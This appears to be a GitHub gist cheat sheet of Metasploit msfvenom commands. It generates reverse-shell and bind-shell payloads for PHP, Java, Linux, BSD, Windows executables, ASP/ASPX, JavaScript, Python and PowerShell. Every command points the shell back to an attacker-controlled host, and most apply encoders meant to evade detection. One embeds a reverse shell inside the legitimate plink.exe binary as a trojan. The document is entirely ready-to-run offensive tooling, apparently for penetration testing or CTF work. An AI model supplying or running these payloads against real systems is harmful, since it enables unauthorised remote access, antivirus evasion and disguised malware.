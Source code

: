 https://gist.githubusercontent.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1/raw/c8eb10b796cdaf29d5eb67469b4cdd99ddb96560/msf_pay.md

### PHP Reverse Shell

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
```

### Java WAR Reverse Shell

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war
```

### Linux bind shell  

```
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai
```

### Linux FreeBSD Reverse Shell

```
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf
```

### Linux C Reverse Shell

```
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c
```

### Windows non staged Reverse Shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe
```

### Windows Staged (Meterpreter) Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe
```

### Windows Python Reverse Shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py
```

### Windows ASP Reverse Shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp
```

### Windows ASPX reverse shell

```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
```

### Windows JavaScript reverse shell with nops  

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18
```

### Windows Powershell Reverse Shell

```
msfvenom -p windows/x64/powershell_reverse_tcp lhost=10.1.1.1 lport=444 -f psh -o r444.ps1

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1
```

### Windows reverse shell excluding bad characters  

```
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai
```

### Windows x64 bit Reverse Shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe
```

### Windows reverse shell embedded into plink  

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```